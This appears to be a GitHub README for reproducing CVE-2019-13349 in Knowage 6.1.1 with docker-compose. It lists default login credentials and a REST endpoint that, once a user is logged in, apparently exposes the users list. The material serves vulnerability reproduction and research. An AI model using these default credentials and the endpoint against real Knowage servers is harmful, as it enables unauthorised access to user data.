 # CVE-2019-13349

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-13349>


## PoC / Exploit
* After authenticating access: <http://SERVER_IP:8080/knowage/restful-services/2.0/users>
 

## Environment used

* Knowage 6.1.1

## Requirements
* git
* docker
* docker-compose
* At least **2GB RAM**

## Reproduction 
* Terminal
```bash
docker-compose up
```
* Web Browser
  * Go to <http://SERVER_IP:8080/knowage/> and login with one of the following credentials (**Here formated as  name:password**)
  
        biadmin:biadmin
        bidev:bidev
        biuser:biuser
        
  * After authenticating go to <http://SERVER_IP:8080/knowage/restful-services/2.0/users>